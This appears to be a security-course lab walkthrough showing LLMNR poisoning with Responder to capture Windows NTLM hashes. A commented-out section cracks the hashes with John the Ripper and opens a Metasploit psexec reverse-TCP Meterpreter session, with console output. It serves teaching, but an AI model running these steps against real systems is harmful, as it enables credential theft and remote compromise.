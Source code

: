 

# Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a weak password.

Specifically, we are looking to take advantage of LLMNR.  

First, we will need to load our terminal and start responder.

Let's get started by opening a Kali terminal.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Next, let’s become root:

<pre>sudo su -</pre>

Before we start, we need to remove the existing Responder database. Do so by running the following:

<pre>rm /usr/share/responder/Responder.db</pre>

Now let’s start Responder:

<pre>responder -I eth0</pre>

You should see this:

![](attachments/responderrunning.png)

Now, let's open Windows File Explorer and put in the string `\\Noooo` into the address bar at the top.

![](attachments/OpeningFileExplorer.png)

![](attachments/noooaccessbar.png)

Switch back to your Kali terminal window.

After a few moments, you should see some captured data showing up.  Please note there may be an error.  That is OK.


![](attachments/captureddata.png)

<!--

THIS SECTION IS BEING REMOVED FOR THE TIME BEING PER JOHN

Next we need to kill Responder with `Ctrl + c`.  This will return the command prompt. 

Now, we need to change to the logs directory.

<pre>cd /opt/Responder/logs</pre>

Once there, we will need to start John The Ripper"

<pre>/opt/JohnTheRipper/run/john --format=netntlmv2 ./HTTP-NTLMv2-172.26.16.1.txt</pre>
Remember!  Your IP will be different!!!!


If you captured a NTLMv1 hash you can crack it with the following command:

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlm ./HTTP-NTLMv1-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

Notice the v2 is dropped from the --format.

![](attachments/Clipboard_2020-06-23-14-24-11.png)

You should see the Windows password be cracked very quickly.  

Now, let’s use that password!

First, we will need to run a script that configures your system as though it is on a domain with little to no security between workstations.
Basically, it allows logons over the network.

Use file explorer to navigate to C:\IntroLabs

Then, Right-click on the smb.bat file and run it as Administrator:

![](attachments/SMB_bat.png)

Next, let’s open a new Kali instance. The easiest way to do this is to click the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we are going to start up and launch Metasploit against the Windows system to get a Meterpreter session.

<pre>
adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ <b>sudo su -</b>
[sudo] password for adhd:
root@DESKTOP-I1T2G01:~#
root@DESKTOP-I1T2G01:~# <b>msfconsole -q</b>
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf5 ><b> use exploit/windows/smb/psexec</b>
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set PAYLOAD windows/meterpreter/reverse_tcp</b>
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set RHOSTS 172.18.112.1 ###REMEMBER!!! YOUR WINDOWS IP WILL BE DIFFERENT</b>
RHOSTS => 172.18.112.1
msf5 exploit(windows/smb/psexec) ><b> set SMBUSER adhd</b>
SMBUSER => adhd
msf5 exploit(windows/smb/psexec) ><b> set SMBPASS adhd</b>
SMBPASS => adhd
msf5 exploit(windows/smb/psexec) ><b> exploit</b>

[*] Started reverse TCP handler on 172.18.121.248:4444
[*] 172.18.112.1:445 - Connecting to the server...
[*] 172.18.112.1:445 - Authenticating to 172.18.112.1:445 as user 'adhd'...
[*] 172.18.112.1:445 - Selecting PowerShell target
[*] 172.18.112.1:445 - Executing the payload...
[+] 172.18.112.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 172.18.112.1
[*] Meterpreter session 1 opened (172.18.121.248:4444 -> 172.18.112.1:52806) at 2022-10-18 12:39:56 -0600

meterpreter >
</pre>
Now, you can see just how bad LLMNR is!!!!
*/
-->


